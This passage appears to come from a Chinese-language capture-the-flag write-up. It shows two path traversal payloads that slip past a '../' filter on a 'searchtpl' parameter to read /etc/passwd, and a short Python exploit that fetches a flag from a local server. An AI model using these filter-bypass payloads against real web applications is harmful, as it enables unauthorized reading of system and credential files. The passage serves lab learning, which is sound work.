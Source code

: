   两种绕过写法:

   `?search=&searchtpl=..././..././..././..././..././..././..././..././etc/passwd`

   `?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`

   ![find_bug_108](../img/find_bug_108.png)

   发现可以在此进行漏洞利用。

3. #### `Exp` 设计

   根据漏洞一，进⾏ `Exp` 设计，利⽤ `request` 库直接发送数据即可拿到 `flag` 。

   ```python
   import requests
   def exp(url):
       r=requests.get(url)
       flag=r.text
       return flag
   if __name__ == '__main__':
       print(exp("http://127.0.0.1/?search=&searchtpl=..././..././..././..././..././..././..././..././flag"))
   ```
   
   ![bug_1_build_exp_125](../img/bug_1_build_exp_125.png)
   